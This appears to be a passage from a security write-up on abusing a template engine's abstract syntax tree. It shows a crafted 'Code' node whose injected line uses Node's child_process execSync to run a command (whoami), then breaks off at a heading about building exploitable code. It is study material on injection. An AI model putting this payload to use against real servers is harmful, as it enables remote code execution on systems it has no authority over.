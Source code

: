 On debugger, I could easy to know and copy the value of `code` object.

![AST_VisitCode1.png](img/AST_VisitCode1.png)

```JSON
code = {  
	"type": "Code",  
	"val": "123",  
	"buffer": true,  
	"mustEscape": true,  
	"isInline": true,  
	"line": 1,  
	"column": 3,  
	"block": {  
		"type": "Text",  
		"line": "console.log(process.mainModule.require('child_process').execSync('whoami').toString())"
	}  
};
```


---
## 5. Build Exploitable Code
Based on debugging result. I tried to copy it and try to execute if there was expected result.
